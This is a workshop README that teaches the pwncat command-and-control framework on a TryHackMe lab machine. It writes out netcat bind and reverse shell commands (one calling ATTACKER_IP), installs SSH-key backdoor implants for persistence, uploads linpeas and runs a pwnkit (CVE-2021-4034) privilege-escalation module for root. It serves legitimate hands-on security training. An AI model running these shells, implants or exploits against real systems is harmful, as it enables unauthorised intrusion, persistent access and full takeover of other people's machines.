

# pwncat-workshop
Workshop materials for my 'Introduction to pwncat and custom attack modules'

## Introduction
[pwncat](https://github.com/calebstewart/pwncat) is a command and control framework which turns a basic reverse or bind shell into a fully-featured exploitation platform. In this workshop you will get an introduction to how to use the platform, and how to write your first custom module.

There are a few pre-requisites:

1. You need to [install pwncat-cs](https://pwncat.readthedocs.io/en/latest/installation.html) on a Linux host with Internet access.
2. You need to install Python3 on your Linux host. You might want to also install VS Code. vi is fine. nano is acceptable as a last resort. You emacs tards are right out. (ok, ok... you can use that too if you like). Actually, use whatever text editor you want... who am I to judge?
2. You need a free account on TryHackMe. [Sign up here](https://tryhackme.com/) if you don't already have an account.
3. You need to be connected to the TryHackMe network with OpenVPN. You can [download your OVPN file here](https://tryhackme.com/access). No clue on how to use OVPN with THM? Then you should [complete this room](https://tryhackme.com/room/openvpn).
4. You need to be attending the workshop. This isn't guaranteed to be a verbatim step-by-step lab. So you will need to be participating to have any clue what the heck some of these sections are about. The repo may be still useful to you, so have at 'er... but you've been warned.

## Getting started with pwncat

To start learning to use pwncat, we are going to connect to a basic room on TryHackMe (THM):
1. In a console, connect to THM using your `.ovpn` file that you downloaded. ie: `sudo openvpn YourTHMHandle.ovpn`
2. From your browser go to the [What the Shell?](https://tryhackme.com/room/introtoshells) room.
3. Click **Join room**
4. Open **Task 14**
5. Click the green button that says **Start Machine**
6. After waiting a couple of minutes for the VM to spin up, note the IP address issued to you. Feel free to add it to your hosts file if you like, and name it something unique like `vm.thm`. ie: `echo '10.10.x.x vm.tm' | sudo tee -a /etc/hosts`
7. Use pwncat to connect via SSH. `pwncat-cs shell@vm.thm`. In case you didn't RTFM, the password is `TryH4ckM3!`.

**CONGRATS!**. You just made your first connection to a target over SSH using pwncat. Looks a little different doesn't it? That's because you aren't in a normal shell. pwncat is a C2 framework that communicates through __channels__. Right now you are in **local-mode**. This means you can execute commands that can be sent to the remote target. If you want to get right to the remote shell you can do this by hitting **`CTRL+D`**. This will always toggle you between **local-mode** and **remote-mode**.

You can tell if you are in local vs remote mode by looking at the prompt. If it starts with **(local)**, you're local... and **(remote)** is remote. So toggle between modes. 

Go ahead. I'll wait. 

When you are bored with `CTRL+D`, make sure you are back in local-mode so we can run our first command.

Chances are, the target will be unknown to you. So doing some enumeration/recon may be a good thing. Let's do that by running the `enumerate.gather` module:

```bash
(local) pwncat$ run enumerate.gather
``` 

If you were keen, you might have noticed that pwncat supports tab-completion. You can use this to cycle through modules and arguments as required. You might have even noticed there are tons of things you can enumerate. `Gather` is basically doing all those things for you.

But maybe you don't want to gather everything, and have a specific thing you want to enumerate. pwncat has you covered.

As an example, maybe you just want to quickly find all files with SUID bit set. You can do that using:
```bash
(local) pwncat$ run enumerate.file.suid
```

So go ahead and try a few different modules. Type `run enumerate.` and hit tab to bring up a drop down list you can select from and try a few out. I'd suggest something like `enumerate.system.processes` or `enumerate.system.network` as a few options to try.

Alright. So we can enumerate like the best of them. But what if we need more? Well, maybe we should upload [Linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) or something. pwncat has an AWESOME file transfer capability so you don't have to host web servers or smb shares to transfer bits to your targets. 

Let' try to use it.

## File transfer using pwncat

OK, so lets get linpeas on the target. I assume you already downloaded it to your host and put it somewhere easy to remember. Maybe something like `/opt/tools/linpeas.sh`.

If you haven't downloaded it, from a different console window try `curl -sL https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh -O`

Alright, so lets use pwncat to put linpeas on the target:
1. Make sure you are in local-mode
2. Run the following command: `upload /opt/tools/linpeas.sh /tmp/linpeas.sh`. Remember you can use tab-completion to find your paths/files if you can't remember them off the top of your head.
3. After the upload completes, switch to remote-mode by hitting `CTRL+D`.
4. Add execute perms on the script: `chmod +x /tmp/linpeas.sh`
5. Run linpeas using the following command: `/tmp/linpeas.sh -s > /tmp/recon.txt`
6. Switch back to local-mode with `CTRL+D`
7. Download the recon output using `download /tmp/recon.txt`
8. From another console, type: `less -r recon.txt`. You can scroll through to see tons more recon data.

See how easy it is to upload and download files from the target? Now here is the cool part. The way it does it is by leveraging GTFOBins to find write primatives on the target. So even in constrained environments, there is a good chance you will be able to move files in and out of the target. And it does all this over that same C2 channel; no need for seperate connections that may arouse suspicion.

## Persistance through implants

pwncat offers several mechanisms to deploy **implants** that will allow persistance. It is all dependant on the permissions in your current security context. The type of implants you can deploy include:
- Backdoor SSH keys in the `authorized_keys` file
- Backdoor password in PAM
- Backdoor account in /etc/passwd 

So let's try to deploy an implant into the account we have access to:
1. Generate a new SSH key pair: `ssh-keygen -f targ -C targgggrrrr
2. Deploy the implant using pwncat: `run implant.authorized_key key=./targ`
3. Switch back to reomte-mode with `CTRL+D`
4. Adjust perms on .ssh directory to leverage authorized_keys: `chmod 700 /home/shell/.ssh`
5. From another console login using your keys: `pwncat-cs shell@vm.thm -i ./targ`

Success!! You've now got persistance!

Sometimes its a good idea to _leave no trace_. When you are done your engagement you can remove your implants. pwncat tracks this, and allows you to list and remove them. Let's give that a go:

1. From local-mode, enter: `run implant list`. You should be able to see what implants you have left.
2. Now let's remove any implants: `run implant remove`. You will have the option to remove individual implants, or all of them. Once done, the channel will close your connection.
3. Try reconnecting with your keys. It SHOULD fail.
4. Now log back in using `pwncat-cs shell@vm.thm`.... or for extra points if you have a second session open, reinstall the implant so you can connect back using `pwncat-cs shell@vm.thm -i ./targ`

# Bind and reverse shells
OK, so we showed how to use pwncat to connect via SSH. But its also really useful in catching shells. 

For the next couple of exercises, we will use [revshells.com](https://www.revshells.com) to generate some of our shell code.

Let's start with a bind shell:
1. Connect to the THM vm using SSH (not pwncat): `ssh shell@vm.thm -i ./targ`
2. Start a bind shell using netcat on your favorite port: `nc -lvnp 4444 -e /bin/bash`
3. In another console window, connect to the bind shell using pwncat: `pwncat-cs vm.thm 4444`
4. Switch to remote-mode: `CTRL+D`
5. Check what user you are: `whoami`.

If you see the user **shell**, success! You cought your first bind shell. While this is good and all, chances are what you really want is to catch a reverse shell. So let's give that a try. 

First, clean up after yourself by going into local-mode and typing `exit` to kill that shell. Then in your SSH sesssion on vm.thm, hit `CTRL+C` if the session is hung and didn't already bring you back to the bash shell.

OK, time to setup your first reverse shell:
1. Figure out what your local IP address is on the THM VPN: `ip a s tun0` or `ifconfig tun0`. I will call this ATTACKER_IP from now on.
2. In a local console window on your attacker system start pwncat to catch the reverse shell: `pwncat-cs -lp 4444`
3. In the SSH session on vm.thm, fire a reverse shell back using netcat: `nc ATTACKER_IP 4444 -e /bin/bash`
4. Go back to your console window and you should see you caught your first reverse shell!

Now you know how to use pwncat to connect to targets via bind shells, reverse shells and SSH. Wh00t!

But what else can we do with this thing? How about writing our own exploit modules? Ya... that sounds like fun.

## Using custom modules

One of the most powerful features of pwncat is the fact it offers a framework that allows for custom modules. So you can write your own exploits and automation code to do the bidding you like. I am going to first introduce you to a module for pwncat I wrote that exploits CVE-2021-4034. You can [download it here](https://github.com/DanaEpp/pwncat_pwnkit).

But first, let's set up the scenario.

Remember when we uploaded linpeas to the target and then downloaded the recon.txt file? When you did a `less -r recon.txt` and scrolled through it, you would have seen under the CVE checks that linpeas detected that this target was vulnerable to CVE-2021-4034 and even highlighted it in **GOLD** to call it out. This is commonly called the pwnkit vulnerability. Now, you can go and follow instructions online to manually exploit this... or just run my pwnkit module in pwncat. Let's give it a try:

1. Download my pwnkit.py custom module: `curl -Ls https://raw.githubusercontent.com/DanaEpp/pwncat_pwnkit/main/pwnkit.py -O`
2. Move `pwnkit.py` to `~/.local/share/pwncat/modules/`. You may need to create this directory if it doesn't exist
3. Start a new pwncat listener: `pwncat-cs -lp 4444`
4. From your SSH session on vm.thm, fire a new reverse shell: `nc ATTACKER_IP 4444 -e /bin/bash`
5. Confirm the pwnkit module automatically loaded using `info pwnkit`. If loaded, it should provide a description of what the module does.
6. Now auto-exploit to privesc to root. Simply type: `run pwnkit`. If successful, your UID should now be zero.
7. Confirm by going into remote-mode and doing `whoami`. You should now be root. Pwnage!

So follow along with me as I walk you through the code in VS Code. (That means stop reading and listen to me in the workshop :-) )

## Writing your first custom module.
We will use `sample.py` included in this repo. You can copy this to `~/.local/share/pwncat/modules/` to have pwncat automatically load it, or use the `load` command in pwncat to load it directly from wherever you have stored it.

ie: `(local) pwncat$ load /home/silverstr/pwncat-workshop/sample`

Once loaded, you can verify its working by doing `info sample` and finally `run sample`.

If all works out, you should see something like this:




 
